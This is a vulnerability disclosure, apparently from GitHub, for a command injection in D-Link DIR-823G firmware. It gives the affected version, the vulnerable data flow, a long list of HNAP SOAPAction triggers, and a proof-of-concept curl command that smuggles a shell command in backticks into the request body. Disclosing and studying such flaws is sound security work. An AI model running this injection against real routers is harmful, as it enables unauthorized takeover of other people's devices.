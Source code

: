 # DIR823G_V1.0.2B05_20181207.bin Command execution vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The parameter a7 is the post request data, and a7 is spliced ​​into v11 as log data, and then v11 is executed as a system command.

![](img/2.jpg#center)

This vulnerability can be triggered when the SOAPAction is any of the following urls.
    http://purenetworks.com/HNAP1/SetMultipleActions
    http://purenetworks.com/HNAP1/CheckPasswdSettings
    http://purenetworks.com/HNAP1/FirmwareDownloadCancel
    http://purenetworks.com/HNAP1/GetAccessCtlList
    http://purenetworks.com/HNAP1/GetAccessCtlSwitch
    http://purenetworks.com/HNAP1/GetAdvNetworkSettings
    http://purenetworks.com/HNAP1/GetAPClientSettings
    http://purenetworks.com/HNAP1/GetAutoRebootSettings
    http://purenetworks.com/HNAP1/GetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/GetCAPTCHAsetting
    http://purenetworks.com/HNAP1/GetClientInfo
    http://purenetworks.com/HNAP1/GetCurrentInternetStatus
    http://purenetworks.com/HNAP1/GetDDNSSettings
    http://purenetworks.com/HNAP1/GetDeviceDomainName
    http://purenetworks.com/HNAP1/GetDeviceSettings
    http://purenetworks.com/HNAP1/GetDHCPClientInfo
    http://purenetworks.com/HNAP1/GetDMZSettings
    http://purenetworks.com/HNAP1/GetFactoryDefault
    http://purenetworks.com/HNAP1/GetFirewallSettings
    http://purenetworks.com/HNAP1/GetFirmwareStatus
    http://purenetworks.com/HNAP1/GetFirmwareValidation
    http://purenetworks.com/HNAP1/GetGuestNetworkSettings
    http://purenetworks.com/HNAP1/GetGuestWLanSettings
    http://purenetworks.com/HNAP1/GetGuestZoneRouterSettings
    http://purenetworks.com/HNAP1/GetInternetConnUpTime
    http://purenetworks.com/HNAP1/GetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/GetLanWanConflictInfo
    http://purenetworks.com/HNAP1/GetLocalMacAddress
    http://purenetworks.com/HNAP1/GetMACFilters2
    http://purenetworks.com/HNAP1/GetMyDLinkSettings
    http://purenetworks.com/HNAP1/GetNetworkSettings
    http://purenetworks.com/HNAP1/GetNetworkTomographyResult
    http://purenetworks.com/HNAP1/GetNetworkTomographySettings
    http://purenetworks.com/HNAP1/GetNTPServerSettings
    http://purenetworks.com/HNAP1/GetOperationMode
    http://purenetworks.com/HNAP1/GetParentsControlInfo
    http://purenetworks.com/HNAP1/GetPPPoEServerStatus
    http://purenetworks.com/HNAP1/GetQoSManagementType
    http://purenetworks.com/HNAP1/GetQoSSettings
    http://purenetworks.com/HNAP1/GetRouterInformationSettings
    http://purenetworks.com/HNAP1/GetRouterLanSettings
    http://purenetworks.com/HNAP1/GetScheduleSettings
    http://purenetworks.com/HNAP1/GetSmartconnectSettings
    http://purenetworks.com/HNAP1/GetStaticClientInfo
    http://purenetworks.com/HNAP1/GetStaticRouteSettings
    http://purenetworks.com/HNAP1/GetSystemUpTime
    http://purenetworks.com/HNAP1/GetUplinkInterface
    http://purenetworks.com/HNAP1/GetUpnpSettings
    http://purenetworks.com/HNAP1/GetVirtualServerSettings
    http://purenetworks.com/HNAP1/GetWanConnectionType
    http://purenetworks.com/HNAP1/GetWanCurrentStatus
    http://purenetworks.com/HNAP1/GetWanplugInfo
    http://purenetworks.com/HNAP1/GetWanSettings
    http://purenetworks.com/HNAP1/GetWanSpeedTest
    http://purenetworks.com/HNAP1/GetWanStatus
    http://purenetworks.com/HNAP1/GetWifiDownSettings
    http://purenetworks.com/HNAP1/GetWLanRadioSecurity
    http://purenetworks.com/HNAP1/GetWLanRadioSettings
    http://purenetworks.com/HNAP1/GetWPSSettings
    http://purenetworks.com/HNAP1/Login
    http://purenetworks.com/HNAP1/PollingFirmwareDownload
    http://purenetworks.com/HNAP1/RunReboot
    http://purenetworks.com/HNAP1/SetAccessCtlList
    http://purenetworks.com/HNAP1/SetAccessCtlSwitch
    http://purenetworks.com/HNAP1/SetAdvNetworkSettings
    http://purenetworks.com/HNAP1/SetAPClientSettings
    http://purenetworks.com/HNAP1/SetAutoRebootSettings
    http://purenetworks.com/HNAP1/SetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/SetClientInfo
    http://purenetworks.com/HNAP1/SetDDNSSettings
    http://purenetworks.com/HNAP1/SetDeviceSettings
    http://purenetworks.com/HNAP1/SetDMZSettings
    http://purenetworks.com/HNAP1/SetFactoryDefault
    http://purenetworks.com/HNAP1/SetFirewallSettings
    http://purenetworks.com/HNAP1/SetGuestWLanSettings
    http://purenetworks.com/HNAP1/SetIgnoreWizardConfig
    http://purenetworks.com/HNAP1/SetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/SetLanWanConflictInfo
    http://purenetworks.com/HNAP1/SetNetworkSettings
    http://purenetworks.com/HNAP1/SetNetworkTomographySettings
    http://purenetworks.com/HNAP1/SetNTPServerSettings
    http://purenetworks.com/HNAP1/SetParentsControlInfo
    http://purenetworks.com/HNAP1/SetPasswdSettings
    http://purenetworks.com/HNAP1/SetPPPoEServerSettings
    http://purenetworks.com/HNAP1/SetQoSManagementType
    http://purenetworks.com/HNAP1/SetQoSSettings
    http://purenetworks.com/HNAP1/SetRouterLanSettings
    http://purenetworks.com/HNAP1/SetSmartconnectSettings
    http://purenetworks.com/HNAP1/SetStaticClientInfo
    http://purenetworks.com/HNAP1/SetStaticRouteSettings
    http://purenetworks.com/HNAP1/SetTriggerADIC
    http://purenetworks.com/HNAP1/SetUpnpSettings
    http://purenetworks.com/HNAP1/SetVirtualServerSettings
    http://purenetworks.com/HNAP1/SetWanSettings
    http://purenetworks.com/HNAP1/SetWanSpeedTest
    http://purenetworks.com/HNAP1/SetWifiDownSettings
    http://purenetworks.com/HNAP1/SetWLanRadioSecurity
    http://purenetworks.com/HNAP1/SetWLanRadioSettings
    http://purenetworks.com/HNAP1/SetWPSSettings
    http://purenetworks.com/HNAP1/StartFirmwareDownload
    http://purenetworks.com/HNAP1/UpdateClientInfo

## Vulnerability verify

![](img/3.jpg#center)

![](img/4.jpg#center)

## POC

```
a='`echo hack>/web_mtn/hack.txt`' ; curl http://192.168.0.1/HNAP1 -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetPasswdSettings"' -d "'$a'" -s >/dev/null ; curl http://192.168.0.1/hack.txt -s
```
